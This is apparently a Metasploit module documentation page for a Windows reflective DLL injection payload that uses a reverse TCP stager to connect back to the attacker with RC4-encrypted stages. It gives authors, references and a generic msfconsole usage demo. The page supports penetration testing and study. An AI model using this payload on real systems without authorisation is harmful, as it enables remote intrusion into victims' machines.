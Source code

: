 ## Reflective DLL Injection, Reverse TCP Stager (RC4 Stage Encryption DNS)

Inject a DLL via a reflective loader. Connect back to the 
attacker


## Module Name
payload/windows/dllinject/reverse_tcp_rc4_dns

## Authors
* sf
* hdm
* skape
* mihi
* RageLtMan


## References
* https://github.com/stephenfewer/ReflectiveDLLInjection
* https://github.com/rapid7/ReflectiveDLLInjection




## Platforms
* win

## Reliability
[Normal](https://github.com/rapid7/metasploit-framework/wiki/Exploit-Ranking)

## Demo

```
msf > use payload/windows/dllinject/reverse_tcp_rc4_dns
msf payload(reverse_tcp_rc4_dns) > show targets
   ... a list of targets ...
msf payload(reverse_tcp_rc4_dns) > set TARGET <target-id>
msf payload(reverse_tcp_rc4_dns) > show options
   ... show and set options ...
msf payload(reverse_tcp_rc4_dns) > run
```
    
    